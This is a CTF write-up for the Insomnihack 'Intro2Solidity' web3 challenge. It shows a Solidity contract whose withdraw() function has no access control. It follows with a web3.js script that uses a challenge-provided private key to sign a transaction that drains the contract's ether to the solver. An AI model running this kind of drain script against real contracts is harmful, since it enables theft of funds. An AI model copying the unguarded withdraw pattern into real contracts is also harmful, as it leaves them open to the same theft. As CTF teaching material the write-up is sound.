 # Intro2Solidity - web3

## Contracts

### Challenge

We get one contract, and want to get all value of it out of the contract. We also receive a address (including private key) on the chain which we can use to sign transactions.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;

contract Intro2Solidity_writeupChallenge{

	constructor() payable {
        require(msg.value == 100 ether,"100ETH required for the start the challenge");
	}

    function withdraw(address payable beneficiary) public{
        beneficiary.transfer(address(this).balance);
    }
}
```

## Solution

This one is pretty easy. They forgot to set the permissions correctly and anyone can just call withdraw() and get all the money. So we will just do this. Below this you can see a script that automatically connects via RPC and does this.

```js
const Web3 = require('web3');
const abi = require('./abi.json');

const privateKey = '0xedbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
const account = '0x133756e1688E475c401d1569565e8E16E65B1337';
const contractAddress = '0x874f54e755ec1e2a9ea083bd6d9c89148cea34d4';
const recipientAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
const rpcUrl = 'https://intro2solidity.insomnihack.ch:32816';

const web3 = new Web3(rpcUrl);
const contract = new web3.eth.Contract(abi, contractAddress);

async function withdraw(recipient) {
  const nonce = await web3.eth.getTransactionCount(account);
  const gasPrice = await web3.eth.getGasPrice();

  const functionAbi = contract.methods.withdraw(recipient).encodeABI();

  const txParams = {
    to: contractAddress,
    data: functionAbi,
    gasPrice: gasPrice,
    gas: 100000, // Add the gas parameter with a value of your choice
    nonce: nonce
  };

  const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
  const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
  console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

withdraw(recipientAddress);
```

--> Flag